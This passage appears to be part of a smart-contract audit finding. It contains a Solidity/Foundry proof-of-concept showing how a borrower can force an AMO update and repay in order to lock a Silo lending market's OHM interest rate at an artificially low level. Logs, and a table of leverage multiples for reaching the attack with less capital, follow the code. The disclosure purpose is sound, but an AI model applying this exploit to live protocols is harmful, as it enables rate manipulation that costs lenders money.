 ```solidity

        // now we force update()
        _update();
        console.log("Rate After Update: ", model.getCurrentInterestRate(address(silo), address(ohm), block.timestamp));

        // we immediately repay our borrow to minimize interest costs
        silo.repay(address(ohm), borrowAmt);
        vm.warp(block.timestamp + 12);
        console.log("Rate After Repayment: ", model.getCurrentInterestRate(address(silo), address(ohm), block.timestamp));

        // this reduced rate is now locked in for 1 day
    }

    function _update() internal {
        uint256 totalDeposits = silo.assetStorage(address(ohm)).totalDeposits;
        uint256 totalBorrowed = silo.utilizationData(address(ohm)).totalBorrowAmount;
        int256 optimalUtilizationPct = 0.5e18; // hardcoded what it is on the contract
        uint targetDeploymentAmount = totalBorrowed.mulDiv(1e18, uint256(optimalUtilizationPct));
        vm.prank(amo);
        if (totalDeposits < targetDeploymentAmount) {
            silo.deposit(address(ohm), targetDeploymentAmount - totalDeposits, false);
        } else if (totalDeposits > targetDeploymentAmount) {
            silo.withdraw(address(ohm), totalDeposits - targetDeploymentAmount, false);
        }
    }
}
```

```
Logs:
  Starting Rate:  70000385185008000 // 7% per year
  Rate After OHM Borrow:  1139999999984496000 // 114% per year
  Rate After Update:  140027777674272000 // 14% per year
  Rate After Repayment:  34097713619616000 // 3.4% per year
```

While the POC is written to assume that the attacker holds approximately $500k of WETH in the Silo, the attack is possible with a much smaller balance because of the ability for the attacker to take a leveraged position. They can do this by depositing WETH, borrowing OHM, trading the OHM for WETH which can be deposited, borrowing more OHM, etc. The amount of leverage that can be taken depends on the maximum LTV value, as follows:

```
0.9 LTV = 9x
0.85 LTV = 5.66x
0.8 LTV = 4x
0.75 LTV = 3x
0.7 LTV = 2.33x
0.6 LTV = 1.5x
```
